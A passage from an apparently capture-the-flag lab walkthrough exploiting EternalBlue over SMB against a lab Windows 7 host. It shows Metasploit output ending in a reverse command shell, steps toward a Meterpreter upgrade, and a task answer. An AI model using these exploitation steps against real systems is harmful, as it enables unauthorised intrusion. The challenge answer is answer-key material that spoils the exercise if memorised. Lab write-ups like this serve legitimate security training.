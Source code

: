 ```
[*] 10.10.10.40:445 - Sending final SMBv2 buffers.
[*] 10.10.10.40:445 - Sending last fragment of exploit packet!
[*] 10.10.10.40:445 - Receiving response from exploit packet
[+] 10.10.10.40:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.10.40:445 - Sending egg to corrupted connection.
[*] 10.10.10.40:445 - Triggering free of corrupted buffer.
[*] Command shell session 1 opened (10.10.14.15:4444 -> 10.10.10.40:49158) at 2024-01-15 10:35:42 +0000
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>
```

Excellent! We've successfully exploited the EternalBlue vulnerability and obtained a command shell. Press Enter if the shell doesn't appear immediately, and use `Ctrl + Z` to background the shell and return to Metasploit when needed.


## Task 3 - Privilege Escalation: Upgrading to Meterpreter

Our initial shell is basic, so let's upgrade it to a Meterpreter shell for enhanced functionality. Meterpreter is Metasploit's advanced payload that provides powerful post-exploitation capabilities.

### Step 1: Find the Shell-to-Meterpreter Module

Background our current shell and search for the conversion module:

```bash
# Press Ctrl+Z to background the shell
search shell_to_meterpreter
```

**Output:**
```
Matching Modules
================

   #  Name                                    Disclosure Date  Rank    Check  Description
   -  ----                                    ---------------  ----    -----  -----------
   0  post/multi/manage/shell_to_meterpreter                   normal  No     Shell to Meterpreter Upgrade
```

Select the module:

```bash
use post/multi/manage/shell_to_meterpreter
```

**Answer:** What is the name of the post module? **post/multi/manage/shell_to_meterpreter**
